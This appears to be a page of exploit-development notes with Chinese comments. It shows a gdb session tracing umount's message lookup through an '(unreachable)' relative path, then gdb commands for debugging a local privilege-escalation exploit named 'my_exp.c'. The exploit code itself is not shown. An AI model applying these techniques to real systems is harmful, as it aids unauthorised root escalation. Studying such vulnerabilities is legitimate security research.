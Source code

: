 ```
c
b *__dcigettext+1265
c


# 通过调用信息找到第一个参数
"(unreachable)/tmp/__gconv_find_shlib/C.UTF-8/LC_MESSAGES/util-linux.mo"
# 因此相对路径应改为：__gconv_find_shlib(原exp中是from_archive)
[---------------------------------registers-------------------------
...
RCX: 0x1 
RDX: 0x55698c49ee78 ("%s: not mounted")
RSI: 0x55698e233200 ("AAAAAA/A")
RDI: 0x55698e23be90 --&gt; 0x55698e23c3b0 ("(unreachable)/tmp/__gconv_find_shlib/C.UTF-8/LC_MESSAGES/util-linux.mo")
...
R8 : 0x7fff5515b1b8 --&gt; 0x7fb5d5b84000 --&gt; 0x7fb5d572e000 --&gt; 0x10102464c457f 
...
[-------------------------------------code-------------------------
...
=&gt; 0x7fb5d4d69d21 &lt;__dcigettext+1265&gt;:    call   0x7fb5d4d68bc0 &lt;_nl_find_msg&gt;
 ...
Guessed arguments:
arg[0]: 0x55698e23be90 --&gt; 0x55698e23c3b0 ("(unreachable)/tmp/__gconv_find_shlib/C.UTF-8/LC_MESSAGES/util-linux.mo")
arg[1]: 0x55698e233200 ("AAAAAA/A")
arg[2]: 0x55698c49ee78 ("%s: not mounted")
arg[3]: 0x1 
arg[4]: 0x7fff5515b1b8 --&gt; 0x7fb5d5b84000 --&gt; 0x7fb5d572e000 --&gt; 0x10102464c457f 


Breakpoint 4, 0x00007fb5d4d69d21 in __dcigettext (
...
gdb-peda$ 


# 调用栈如下
gdb-peda$ bt
#0  0x00007fb5d4d69d21 in __dcigettext (
    domainname=0x55698e233580 "util-linux", 
    msgid1=0x55698c49ee78 "%s: not mounted", 
    msgid2=0x0, plural=0x0, n=0x0, 
    category=0x5) at dcigettext.c:742
#1  0x000055698c49d68d in mk_exit_code (cxt=0x55698e2335a0, rc=0xffffffff)
    at sys-utils/umount.c:206
#2  0x000055698c49dba1 in umount_one (cxt=0x55698e2335a0, spec=...
#3  0x000055698c49d152 in main (argc=0x0, argc@entry=0x3, ...
#4  0x00007fb5d4d5c2e1 in __libc_start_main (main=0x55698c49c970 ...
#5  0x000055698c49d3aa in _start ()
```
- 如何在umount中dump栈内存的位置下断点
```
gcc my_exp.c -o exp4dbg -g
gdb
file exp4dbg
b main
r
set follow-fork-mode parent
b attemptEscalation
c
set follow-fork-mode child
c
b *umount_one if *(char *)$rsi == '('
```